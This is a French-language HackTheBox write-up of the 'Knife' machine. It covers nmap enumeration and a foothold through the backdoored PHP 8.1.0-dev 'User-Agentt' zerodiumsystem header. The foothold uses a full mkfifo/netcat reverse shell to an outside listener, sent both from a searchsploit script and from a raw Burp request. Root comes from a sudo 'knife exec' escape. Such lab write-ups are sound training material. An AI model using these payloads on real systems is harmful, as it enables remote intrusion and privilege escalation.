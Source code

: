 ```yaml
---
title: HTB | Knife
description: Knife is an easy difficulty Linux machine that features an application which is running on a backdoored version of PHP. This vulnerability is leveraged to obtain the foothold on the server. A sudo misconfiguration is then exploited to gain a root shell. 
slug: knife-htb
date: 2025-01-22 00:00:00+0000
#image: cover.png
categories:
    - HackTheBox
tags:
    - Linux
    - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Knife cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Knife</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Linux</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.242</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## Enumeration

### nmap
```bash
$ nmap -sC -sV -An -T4 -vvv 10.10.10.242

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EA...
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2....
|   256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1l....
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Foothold

### PHP 8.1.0-dev (RCE)
Avec burp, on observe que le serveur utilise la version 8.1.0-dev de php. Avec **searchsploit**, on voit qu'il existe une RCE sur cette version de php : 
```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit 8.1.0-dev 

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution                                                                                                 | php/webapps/49933.py
```

### Exploit from searchsploit
On peut utiliser un script python pour exploiter la vuln:
```bash
┌──(kali㉿kali)-[~/htb/Knife]
└─$ python3 49933.py   
Enter the full host url:
http://knife.htb

Interactive shell is opened on http://knife.htb 
Can't acces tty; job crontol turned off.
$ whoami
james
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f

------------------------------------

┌──(kali㉿kali)-[~]
└─$ nc -lnvp 1337              
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60424
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
```

### Exploit from Burp
La vulnérabilité consiste à ajouter une variable "User-Agentt", avec 2 "t", et d'écrire la commande a executé dans la fonction "zerodiumsystem('COMMANDE_ICI')" :
```bash
## FROM BURP :

GET / HTTP/1.1
Host: knife.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
User-Agentt: zerodiumsystem('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 1337 >/tmp/f');
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1

---------------------------------

┌──(kali㉿kali)-[~/htb/Knife]
└─$ nc -lnvp 1337
listening on [any] 1337 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.242] 60498
bash: cannot set terminal process group (1025): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ python3 -c "import pty;pty.spawn('/bin/bash')"
python3 -c "import pty;pty.spawn('/bin/bash')"
james@knife:/$ export TERM=xterm
export TERM=xterm
james@knife:/$ ^Z
zsh: suspended  nc -lnvp 1337
                                        
┌──(kali㉿kali)-[~/htb/Knife]
└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 1337

james@knife:/$ whoami
james
james@knife:/$ cd
james@knife:~$ cat user.txt 
4819.....4e49f
```

## Privilege Escalation

### Knife Binary exploit
Avec **sudo -l**, on observe que l'on peut executer le binaire knife en tant que root. Sur `gtfobins`, on trouve rapidement une exploit pour faire une élévation de privilège avec ce binaire.  

Voici le lien exacte de la page :
https://gtfobins.github.io/gtfobins/knife/

```bash
james@knife:/home$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
james@knife:/home$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
# cd /root
# cat root.txt
3db8b.....ce60
```